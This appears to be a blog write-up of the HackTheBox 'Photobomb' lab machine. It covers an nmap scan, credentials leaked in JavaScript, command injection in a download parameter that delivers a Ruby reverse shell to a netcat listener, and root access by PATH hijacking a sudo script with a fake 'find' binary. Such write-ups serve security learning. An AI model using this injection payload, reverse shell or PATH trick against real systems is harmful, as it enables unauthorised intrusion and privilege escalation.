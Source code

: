 ```yaml
---
title: "HackTheBox Photobomb"
date: 2022-12-29T22:11:10+01:00
draft: false
---
```


Today we're exploiting Photobomb one the easiest machine on HackTheBox.
We'll perform a command injection to gain a reverse shell on the box and
exploit a script using path variables.
<!--more-->

## **Nmap**

```
# Nmap 7.93 scan initiated Thu Dec 29 11:35:05 2022 as: nmap -sC -sV -o nmap.txt 10.10.11.182
Nmap scan report for 10.10.11.182
Host is up (0.020s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 29 11:35:13 2022 -- 1 IP address (1 host up) scanned in 7.63 seconds
```
As usual two ports are open `ssh:22` and `http:80`. (Don't forget to add photobomb.htb to your hosts file).

## **HTTP:80**

![image text](/web_page_photobomb.png)

On the web page there is a link which redirect us to /printer directory and 
asking for username and password but there is also a message : (the credentials are in your welcome pack). Looking in the dev tools there is a js file which contains the credentials : 

```
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:******@photobomb.htb/printer');
  }
}
window.onload = init;
```

After I successfully logged in we have a page where we can download pictures.
I cliked on the download button and captured the request with burpsuite : 


![image text](/burp_photobomb.png)

## **Shell as wizard**

To be honest I struggled to find a way to exploit this but it was so simple.
By checking all parameters, the filetype parameters was vulnerable to command injection so I generated a ruby reverse shell (I choose ruby because the site was running sinatra) and inject it : 

```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;ruby+-rsocket+-e'spawn("sh",[%3ain,%3aout,%3aerr]%3d>TCPSocket.new("IP",PORT))'&dimensions=3000x2000
```
Start a listenner using netcat and here we go : 

```
rlwrap nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.14.171] from (UNKNOWN) [10.10.11.182] 50958
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
```
Now just grab the user flag in wizard home's directory.

## **Shell as root**

For the root part no need to run linpeas just do sudo -l to see what
we can run as root : 

```
wizard@photobomb:~$ sudsudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
Okay so basically we can run cleanup.sh script as root with SETENV.

the cleanup script : 

```
wizard@photobomb:~$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
To resume it does some cleaning stuff but if you noticed at the end 
it calls find binary but without specifie the full path so can abuse this
by creating a file named find put some stuff in it and modify our PATH varibale then we the script will call find it will use our malicious file. Easy right ?

Our malicious file contains only two lines :
```
wizard@photobomb:/tmp$ cat find
cat find
#!/bin/bash

/bin/bash
```
Now just by running the command as follow : 

```
wizard@photobomb:/tmp$ sudo PATH=/tmp/ /opt/cleanup.sh
```
I set the path to /tmp because it is where my malicious file is located and we are root :

```
wizard@photobomb:/tmp$ sudo PATH=/tmp/ /opt/cleanup.sh
sudo PATH=/tmp/ /opt/cleanup.sh
/opt/.bashrc: line 13: [: command not found
/opt/.bashrc: line 20: [: command not found
/opt/.bashrc: line 26: [: command not found
/opt/.bashrc: line 50: [: command not found
/opt/.bashrc: line 63: [: command not found
/opt/cleanup.sh: line 6: [: command not found
bash: groups: command not found
Command 'lesspipe' is available in the following places
 * /bin/lesspipe
 * /usr/bin/lesspipe
The command could not be located because '/usr/bin:/bin' is not included in the PATH environment variable.
lesspipe: command not found
Command 'dircolors' is available in the following places
 * /bin/dircolors
 * /usr/bin/dircolors
The command could not be located because '/usr/bin:/bin' is not included in the PATH environment variable.
dircolors: command not found
root@photobomb:/home/wizard/photobomb#
```

And voila short writeup, photobomb was a fun box unless it's not really real life applicable.
Big stuff are coming for 2023 (some pro labs :) ) 
Happy New Year !!!
